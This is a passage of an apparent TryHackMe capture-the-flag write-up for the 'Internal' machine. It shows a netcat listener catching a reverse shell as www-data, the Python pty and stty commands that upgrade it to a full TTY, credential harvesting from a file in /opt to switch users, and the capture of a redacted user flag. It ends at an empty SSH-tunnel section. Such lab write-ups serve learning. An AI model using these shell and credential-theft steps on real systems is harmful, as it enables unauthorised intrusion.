 ```bash
nc -lvnp 1234                                                                                   1 ⨯
listening on [any] 1234 ...
connect to [10.8.131.89] from (UNKNOWN) [10.10.71.130] 56408
Linux internal 4.15.0-112-generic #113-Ubuntu SMP Thu Jul 9 23:41:39 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 15:53:38 up  1:03,  0 users,  load average: 0.04, 0.11, 0.14
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$
```
### Full TTYs

Before editing the file in vim we need to set oru TTY

```python
python -c 'import pty; pty.spawn("/bin/bash")'
```

Inside the nc session Press CTRL+Z and add the following lines.

```bash
stty raw -echo; fg; ls; export SHELL=/bin/bash; export TERM=screen; stty rows 38 columns 116; reset;
```
## Local Privilege escalation
```bash
www-data@internal:/$ cd home/
www-data@internal:/home$ ls
aubreanna
www-data@internal:/home$
```
we have a user name `aubreanna`! Let's try to find her ssh password with hydra. Got nothing!
opt directory have something interesting!
```bash
www-data@internal:/opt$ ls
containerd  wp-save.txt
www-data@internal:/opt$ cat wp-save.txt
Bill,

Aubreanna needed these credentials for something later.  Let her know you have them and where they are.

aubreanna:xxxxxxxxxxxxx
www-data@internal:/opt$ su aubreanna
Password:
aubreanna@internal:/opt$
```
### User flag
```bash
aubreanna@internal:~$ ls
jenkins.txt  snap  user.txt
aubreanna@internal:~$ cat user.txt
THM{xxxxxxxxxxxxx}
```
```bash
aubreanna@internal:~$ cat jenkins.txt
Internal Jenkins service is running on 172.17.0.2:8080
```
## Privilege escalation
We can not access this site directly, let's use ssh tunnel
### SSH Tunnel
```bash
```
